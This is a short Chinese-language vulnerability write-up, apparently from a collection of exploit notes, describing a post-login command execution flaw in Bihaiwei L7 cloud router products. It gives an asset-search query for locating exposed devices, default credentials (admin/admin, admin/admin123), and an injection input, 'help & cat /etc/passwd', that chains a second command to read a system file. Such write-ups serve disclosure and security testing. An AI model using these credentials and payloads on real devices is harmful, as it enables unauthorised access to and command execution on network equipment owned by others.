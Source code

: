 # 碧海威 L7多款产品存在后台命令执行漏洞

# 一、漏洞简介
碧海威L7网络产品是为酒店、度假村、商场和车站等商用无线管理者独身订造的专用网络设备。设备具备路由、防火墙、流控、无线AC控制器、微信认证等多项功能。碧海威 L7多款产品存在后台命令执行漏洞

# 二、影响版本
+ 碧海威 L7云路由

# 三、资产测绘
```plain
product="碧海威科技-L7云路由"
```

![1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d.png](./img/vvU9uRd8v176utG_/1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d-971649.png)

# 四、漏洞复现
使用弱口令登录后台

```plain
admin/admin
admin/admin123
```

![1717872584021-4caeb664-7765-42da-bd84-f9d711fc4f0a.png](./img/vvU9uRd8v176utG_/1717872584021-4caeb664-7765-42da-bd84-f9d711fc4f0a-997411.png)

```plain
help & cat /etc/passwd 
```

![1717873247660-03aaa28f-7534-404a-9426-de729a732f3e.png](./img/vvU9uRd8v176utG_/1717873247660-03aaa28f-7534-404a-9426-de729a732f3e-517323.png)



> 更新: 2024-06-27 09:15:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tteea03oq5v1vp29>